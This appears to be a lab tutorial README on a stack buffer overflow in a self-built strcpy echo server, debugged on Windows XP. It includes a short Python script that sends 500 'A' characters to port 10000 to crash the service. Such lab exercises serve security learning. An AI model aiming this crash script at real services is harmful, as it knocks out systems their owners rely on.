


# sampling a buffer overflow #

* crashing the program
* code in python
* analyze crash

using immunity debugger 1.85 on windows xp

the input we send to the program is stored in a buffer. strcopy copies a string from a source to a destination. the problem is that there is no cap on the lenght of the string in strcpy, which means if the size of the input buffer which is going to hold the string is small, and the user sends a very large string, this would end up overflowing that buffer which leads to a corruption in that stack which overrides things like the return address and ends up crashing the program.


##  ## server / client connection ##

basic echo server using strcpy, running on port 10000, connecting using nc and testing functionality. 




## ## python exploit ##

see file strcpy.py

```python
#!/usr/bin/python

import socket
import sys

# ipv4 address family and tcp socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# connecting as client. user input ip and port 10000
sock.connect((sys.argv[1], 10000))

# sending 500 "A's"
buffer = "A" * 500

# sending buffer
sock.send(buffer)

# receive response from server
print sock.recv(1024)

sock.close()
```


## ## run exploit ##

after sending our buffer, the program crashed with windows displaying a error report.





